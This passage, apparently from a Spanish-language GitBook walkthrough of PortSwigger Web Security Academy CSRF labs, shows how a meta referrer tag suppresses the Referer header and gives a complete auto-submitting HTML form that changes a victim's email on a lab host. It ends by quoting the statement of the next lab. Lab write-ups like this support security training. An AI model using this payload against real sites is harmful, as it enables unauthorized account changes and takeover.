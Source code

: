 <figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Como el encabezado Referer se puede manipular por completo**, en realidad **podemos saltarnos esta verificación**.

Según la documentación de Mozilla, **podemos usar la etiqueta `<meta>` para controlar o anular el header Referer**.

```
<html>
    <head>
	    <meta name="referrer" content="no-referrer">
        <title>CSRF</title>
    </head>
    <body>
        <form action="https://0ab300ff0315bc5f80b5e925003400ab.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="test@test.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: CSRF with broken Referer validation

### Enunciado

**La funcionalidad de cambio de correo electrónico de este laboratorio es vulnerable a CSRF.** Intenta **detectar y bloquear solicitudes entre dominios**, pero **su mecanismo de detección puede ser evadido**.
